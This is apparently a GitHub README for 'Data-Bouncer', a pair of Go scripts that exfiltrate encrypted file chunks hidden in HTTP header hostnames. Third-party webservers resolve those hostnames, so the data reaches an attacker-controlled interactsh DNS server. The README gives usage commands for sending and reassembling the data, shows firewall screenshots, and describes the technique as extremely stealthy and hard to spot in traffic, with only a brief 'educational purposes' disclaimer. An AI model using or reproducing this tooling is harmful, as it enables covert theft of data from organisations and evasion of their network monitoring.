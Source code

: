 # Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts that can be used for educational purposes. Please don't do anything illegal.

One script that encrypts and bounces the data you want to exfiltrate and the other that reassembles and decrypts it.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on most websites/domains that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt. First encrypts your chosen file using a password you provide, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <interact server url> -v
```
```
.\bounce.exe -f <filename> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh exfil server, processes and reassembles the chunks and does the reverse of decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```
```
.\regenerate.exe -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of the forward traffic from FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)

- As you can see, it looks like the traffic is going to 23.x.x.x, a highly trusted domain.
- However, when the HTTP request is made, the webserver looks at our modified HTTP headers and does a dns lookup of our exfil server from those headers.
- Then we're able to collect each of those dns lookups back to our exfil server and reconstruct the data from those headers.
- This only works because many webservers processes hostnames in the headers, and we can relay small chunks of data in those headers for collection.
- Therefore, this makes it an extremely stealthy way of exfiltrating data.
